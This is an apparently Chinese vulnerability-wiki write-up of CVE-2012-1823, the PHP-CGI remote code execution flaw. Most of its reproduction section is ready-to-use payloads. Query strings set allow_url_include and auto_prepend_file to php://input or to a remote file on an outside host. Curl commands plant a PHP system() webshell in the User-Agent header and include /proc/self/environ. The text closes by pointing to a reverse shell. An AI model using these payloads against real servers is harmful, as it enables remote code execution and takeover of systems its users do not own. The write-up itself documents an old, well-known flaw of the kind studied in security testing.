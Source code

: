 （CVE-2012-1823）PHP-CGI远程代码执行漏洞
========================================

一、漏洞简介
------------

二、漏洞影响
------------

php \< 5.3.12 or php \< 5.4.2

三、复现过程
------------

cgi模式下有如下可控命令行参数可用：

-   `-c` 指定php.ini文件（PHP的配置文件）的位置
-   `-n` 不要加载php.ini文件
-   `-d` 指定配置项
-   `-b` 启动fastcgi进程
-   `-s` 显示文件源码
-   `-T` 执行指定次该文件
-   `-h`和`-?` 显示帮助

​ 那么最简单的利用方式就是`-s`可以直接显示源码![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId24.png)-d参数好像就文件包含吧

### payload:

    -d+allow_url_include%3don+-d+auto_append_file%3dphp://input
    需要注意的是 =要用%3d(url编下码) 空格用+号代替或者%20
    -d+allow_url_include%3don+-d+auto_prepend_file%3dphp://input
    上面两种都行只不过一个在页面顶部加载文件一个是页面底部加载文件


     
    auto_prepend_file 在页面顶部加载文件

    auto_append_file  在页面底部加载文件 

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId26.png)远程包含:

payload:

    -d allow_url_include%3don+-d+auto_prepend_file%3dhttp://ip/1.txt

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId27.png)

本地包含:

payload:

    curl -H "USER-AGENT:<?php echo system($_GET["hk"]);?>" url -d auto_prepend_file%3d/proc/self/environ+-n

这里介绍下/proc/self/environ在文件包含中的作用

    如果服务器已过响应时间，还可以通过LFI重新利用，包括存储在User_Agent的/proc/self/environ文件，我们将把我们的PHP代码放置其中用于执行CMD命令 

我们可以把php代码放进user-agent里然后进行本地包含

但是我这里用bp修改user-agent不知道为什么不行 (一直显示超时)

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId28.png)

不过我们还是可以进行本地包含的 使用curl来完成

payload:

    curl -H "USER-AGENT:" https://www.0-sec.org:8080/index.php?-d+auto_prepend_file%3d/proc/self/environ+-n -o xxx.txt

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId29.png)

当然也可以使用之前提到的反弹shell
